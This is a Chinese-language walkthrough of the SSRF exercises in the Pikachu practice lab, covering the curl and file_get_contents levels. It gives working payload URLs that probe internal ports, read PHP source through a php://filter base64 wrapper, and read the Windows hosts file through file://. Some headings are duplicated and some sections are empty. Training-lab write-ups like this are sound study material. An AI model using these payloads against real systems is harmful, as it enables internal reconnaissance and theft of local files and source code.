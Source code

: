 
发现是URL传递的
（如果无法显示，就在127.0.0.1后面加上端口号）





<h4>8.1.2、第二步：测试是哪种函数引起的SSRF漏洞</h4>
这是个SSRF（curl）靶场，就不做过多测试
函数不同所支持的功能也存在差别

**对端口进行一个探测（http协议）**
http://localhost:8080/pikachu-master/vul/ssrf/ssrf_curl.php?url=http://127.0.0.1:3306

 能够探测到内容，说明存在SSRF漏洞，并且进一步尝试其他操作


**内网应用指纹识别（http协议）**
（这个我在尝试的时候，如果原文件带了版本号，读取的时候也要带，大小写不一样不影响）



**读取文件（file协议）**



#### 8.1.2、第二步：测试是哪种函数引起的SSRF漏洞

> 
<h3>8.2、pikachu（SSRF-file_get_contents）</h3>

<h4>8.2.1、第一步：判断是否存在SSRF漏洞</h4>
上一题是url，这一题是file函数
但是操作还是基本类似


<h4>8.2.2、第二步：利用漏洞</h4>
**读取php源码**
http://localhost:8080/pikachu-master/vul/ssrf/ssrf_fgc.php?file=php://filter/read=convert.base64-encode/resource=ssrf.php


再使用base64解密即可得到源码


**读取本地host等文件**
http://localhost:8080/pikachu-master/vul/ssrf/ssrf_fgc.php?file=file://c:\windows\system32\drivers\etc\hosts




#### 8.2.2、第二步：利用漏洞
